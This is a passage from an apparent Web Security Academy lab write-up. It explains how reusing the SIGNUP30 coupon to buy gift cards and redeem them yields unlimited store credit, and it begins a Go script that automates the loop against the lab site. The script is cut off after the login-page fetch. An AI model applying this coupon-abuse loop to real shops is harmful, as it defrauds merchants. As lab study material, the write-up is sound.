 ![](images/Pasted%20image%2020210901210407.png)

The account's store credit after the purchase is $93. If the $10 gift card is redeemed, the total will be $103, meaning the coupon code made it possible to gain money. How does the application ensure each account only uses this coupon code once? Does it?

After walking back through the purchasing workflow, it appears that the application does not properly ensure that each account only uses the coupon code once. It is possible to use the coupon code again and again to purchase a $10 gift card at a discounted price and then redeem the gift card for infinite money.

### Exploitation

Add 10 $10 gift cards to the cart and apply the `SIGNUP30` discount code for a total price of $70. Place the order and redeem the gift cards to gain $100 back, for a total store credit of $130. Repeat this process until it is possible to purchase a "l33t leather jacket." The following Go program automates this process:

```go
package main

import (
	"crypto/tls"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"net/url"
	"regexp"
	"strconv"
	"strings"
	"time"

	"github.com/anaskhan96/soup"
)

const URL = "https://aced1f851fd483398069055d00de007e.web-security-academy.net"

func GetLoginPageTokenAndCSRF() (*http.Cookie, string) {

	// Retrieve the login page
	resp, err := http.Get(fmt.Sprintf("%s/login", URL))
	if err != nil {
		log.Fatalln(err)
	}
```
